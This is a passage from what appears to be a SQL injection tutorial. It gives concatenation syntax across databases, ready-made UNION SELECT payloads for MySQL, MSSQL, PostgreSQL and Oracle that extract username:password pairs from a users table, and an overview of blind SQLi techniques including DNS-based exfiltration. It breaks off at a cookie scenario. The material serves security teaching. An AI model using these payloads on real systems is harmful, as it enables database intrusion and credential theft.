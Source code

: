 > **Note**: Different databases have different syntaxes for concatenation so you must know which DBMS you are attacking and its syntax for concatenation.

**String Concatenation Table**

| Database Name | Example |
| --- | --- |
| Oracle | 'foo'||'bar' |
| Microsoft | 'foo'+'bar' |
| PostgreSQL | 'foo'||'bar' |
| MySQL | 'foo'` `'bar' `[Note the space between the two string]` CONCAT('foo','bar') |

They will like this in SQLi format

| DBMS | String Concatenation Query |
| --- | --- |
| MySQL | 'UNION SELECT 1, concat(username,':',password), 3 FROM users-- - |
| MSSQL | 'UNION SELECT 1, username + ':' + password, 3 FROM users-- - |
 PostgreSQL
 ```SQL
'UNION SELECT 1, username || ':' || password, 3 FROM users-- -
```

Oracle
```SQL
'UNION SELECT 1, username || ':' || password, 3 FROM users-- -
```

**Blind SQLi**

Blind SQLi is tricky but most of the time you will see blind SQLi in real-world applications. They are tricky because the application doesn't show you any response back to your application so to exfiltrate data you have to make true or false (boolean) conditions with time delays or some other small difference in response with that you have to loop through all alphanumeric characters and symbols to get a result.

The following techniques can be used to exploit blind SQL injection vulnerabilities:

- You can change the logic of the query to trigger a detectable difference in the application's response depending on the truth of a single condition. This might involve injecting a new condition into some Boolean logic or conditionally triggering an error such as a divide-by-zero.
- You can conditionally trigger a time delay in the processing of the query, allowing you to infer the truth of the condition based on the time that the application takes to respond.
- You can trigger an out-of-band network interaction, using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques. This technique is extremely powerful and works in situations where the other techniques do not. Often, you can directly exfiltrate data via the out-of-band channel, for example by placing the data into a DNS lookup for a domain that you control.

**Blind SQLi with conditional response**

*Scenario*

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
